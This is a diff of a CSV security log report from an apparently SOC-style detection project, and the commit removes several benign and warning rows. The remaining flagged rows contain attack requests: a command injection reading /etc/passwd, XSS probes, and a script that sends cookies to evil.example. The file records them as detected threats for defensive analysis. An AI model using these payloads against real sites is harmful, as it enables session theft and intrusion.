

Before and after one commit to Taimur2208/SOC-sheild, a CSV file: report.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff covers the shown part only.

```diff
--- a/report.csv
+++ b/report.csv
@@ -42,9 +25,4 @@ Client IP,Timestamp,Requested URL,Status Code,Severity,Threat Message
 91.240.118.172,500,"[19/Oct/2026:14:22:14,+0000]","""GET,/cgi-bin/test.cgi?cmd=/bin/cat%20/etc/passwd,HTTP/1.1""",Critical,Malicious IP pattern detected in URL
-91.240.118.172,401,"[19/Oct/2026:14:22:18,+0000]","""DELETE,/api/users/1,HTTP/1.1""",Warning,Suspicious Activity (401)
-203.0.113.45,200,"[19/Oct/2026:16:45:30,+0000]","""GET,/blog/cybersecurity-tips.html,HTTP/1.1""",INFO,Normal Traffic
-203.0.113.45,200,"[19/Oct/2026:16:46:12,+0000]","""GET,/contact.html,HTTP/1.1""",INFO,Normal Traffic
-203.0.113.45,200,"[19/Oct/2026:16:47:05,+0000]","""POST,/contact/submit.php,HTTP/1.1""",INFO,Normal Traffic
 103.251.167.20,403,"[20/Oct/2026:08:15:40,+0000]","""GET,/search.php?q=<script>alert('XSS')</script>,HTTP/1.1""",Critical,Malicious IP pattern detected in URL
 103.251.167.20,403,"[20/Oct/2026:08:15:44,+0000]","""GET,/feedback.php?comment=<script>document.location='http://evil.example/grab?c='+document.cookie</script>,HTTP/1.1""",Critical,Malicious IP pattern detected in URL
-103.251.167.20,403,"[20/Oct/2026:08:15:50,+0000]","""PUT,/api/profile/avatar.php,HTTP/1.1""",Warning,Suspicious Activity (403)
 45.33.32.156,301,"[20/Oct/2026:10:02:01,+0000]","""GET,/admin,HTTP/1.1""",Critical,Malicious IP pattern detected in URL
@@ -53,11 +31 @@ Client IP,Timestamp,Requested URL,Status Code,Severity,Threat Message
 45.33.32.156,404,"[20/Oct/2026:10:02:02,+0000]","""GET,/admin/db_backup.sql,HTTP/1.1""",Critical,Malicious IP pattern detected in URL
-45.33.32.156,404,"[20/Oct/2026:10:02:03,+0000]","""GET,/wp-login.php,HTTP/1.1""",Warning,Suspicious Activity (404)
-185.199.108.50,200,"[20/Oct/2026:11:30:10,+0000]","""GET,/,HTTP/1.1""",INFO,Normal Traffic
-185.199.108.50,200,"[20/Oct/2026:11:30:10,+0000]","""GET,/,HTTP/1.1""",INFO,Normal Traffic
-185.199.108.50,200,"[20/Oct/2026:11:30:10,+0000]","""GET,/,HTTP/1.1""",INFO,Normal Traffic
-185.199.108.50,200,"[20/Oct/2026:11:30:10,+0000]","""GET,/,HTTP/1.1""",INFO,Normal Traffic
-185.199.108.50,200,"[20/Oct/2026:11:30:10,+0000]","""GET,/,HTTP/1.1""",INFO,Normal Traffic
-185.199.108.50,200,"[20/Oct/2026:11:30:10,+0000]","""GET,/,HTTP/1.1""",INFO,Normal Traffic
-185.199.108.50,500,"[20/Oct/2026:11:30:10,+0000]","""GET,/,HTTP/1.1""",High,Server Error - Possible Exploit Attempt
-185.199.108.50,500,"[20/Oct/2026:11:30:10,+0000]","""GET,/,HTTP/1.1""",High,Server Error - Possible Exploit Attempt
-192.168.1.10,302,"[20/Oct/2026:12:05:44,+0000]","""GET,/logout.php,HTTP/1.1""",INFO,Normal Traffic
```
Also changed, not shown: 17 removed rows elsewhere in this file, 3 other files.
